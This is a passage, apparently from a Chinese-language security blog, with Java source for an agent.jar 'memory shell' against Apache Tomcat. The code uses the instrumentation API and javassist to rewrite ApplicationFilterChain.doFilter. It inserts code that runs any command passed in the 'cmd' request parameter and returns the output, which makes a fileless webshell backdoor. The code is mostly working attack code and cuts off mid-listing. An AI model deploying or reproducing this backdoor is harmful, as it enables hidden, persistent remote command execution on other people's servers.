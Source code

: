 

生成 Filter 内存马的 agent.jar , 记得遍历已加载的 class，如果存在的话那么就调用 retransformClasses 对其进行重定义，否则 ApplicationFilterChain 会修改失败。

```java
package AgentMemShell;

import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import javassist.LoaderClassPath;

import java.lang.instrument.ClassFileTransformer;
import java.lang.instrument.IllegalClassFormatException;
import java.lang.instrument.Instrumentation;
import java.security.ProtectionDomain;

public class AgentDemo implements ClassFileTransformer {
    private static final String targetClassName = "org.apache.catalina.core.ApplicationFilterChain";

    public static void agentmain(String agentArgs, Instrumentation instrumentation) {
        instrumentation.addTransformer(new AgentDemo(), true);
        Class[] classes = instrumentation.getAllLoadedClasses();
        for (Class clas:classes){
            if (clas.getName().equals(targetClassName)){
                try{
                    instrumentation.retransformClasses(new Class[]{clas});
                } catch (Exception e){
                    e.printStackTrace();
                }
            }
        }
    }

    @Override
    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
        className = className.replace("/",".");
        if (className.equals(targetClassName)){
            System.out.println("Find the Inject Class: " + targetClassName);
            ClassPool pool = ClassPool.getDefault();
            // 需要加入这段内容，否则会出现 javassist 找不到 ApplicationFilterChain 的报错
            pool.appendClassPath(new LoaderClassPath(Thread.currentThread().getContextClassLoader()));
            try {
                CtClass c = pool.getCtClass(className);
                CtMethod m = c.getDeclaredMethod("doFilter");
                m.insertBefore("javax.servlet.http.HttpServletRequest req =  $1;\n" +
                        "javax.servlet.http.HttpServletResponse res = $2;\n" +
                        "java.lang.String cmd = request.getParameter(\"cmd\");\n" +
                        "if (cmd != null){\n" +
                        "    try {\n" +
                        "        java.io.InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();\n" +
                        "        java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(in));\n" +
                        "        String line;\n" +
                        "        StringBuilder sb = new StringBuilder(\"\");\n" +
                        "        while ((line=reader.readLine()) != null){\n" +
                        "            sb.append(line).append(\"\\n\");\n" +
                        "        }\n" +
                        "        response.getOutputStream().print(sb.toString());\n" +
                        "        response.getOutputStream().flush();\n" +
```